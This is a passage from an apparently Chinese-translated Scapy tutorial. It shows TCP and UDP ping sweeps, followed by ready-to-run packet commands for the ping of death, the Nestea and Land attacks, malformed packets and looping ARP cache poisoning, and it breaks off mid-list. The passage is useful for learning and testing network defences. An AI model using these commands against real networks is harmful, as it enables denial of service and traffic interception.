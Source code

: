 ## TCP Ping

如果ICMP　echo请求被禁止了，我们依旧可以用不同的TCP Pings，就像下面的TCP SYN Ping:
```python
>>> ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
```
对我们的刺探有任何响应就意味着为一台存活主机，可以用以下的命令收集结果：
```python
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )
```

## UDP Ping

如果其他的都失败了，还可以使用UDP Ping，它可以让存活主机产生ICMP Port unreachable错误。你可以挑选任何极有可能关闭的端口，就像端口0：
```python
>>> ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )
```
同样的，使用以下命令收集结果：
```python
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )
```

## Classical attacks

畸形数据包：
```python
>>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())
```
死亡之ping (Muuahahah)：
```python
>>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )
```
Nestea attack:
```python
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
>>> send(IP(dst=target, id=42, frag=48)/("X"*116))
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))
```
Land攻击（专为微软视窗）：
```python
>>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```

## ARP cache poisoning

这种攻击可以通过VLAN跳跃攻击投毒ARP缓存，使得其他客户端无法加入真正的网关地址。

* 经典的ARP缓存投毒：

```python
>>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

* 使用double 802.1q封装进行ARP缓存投毒：
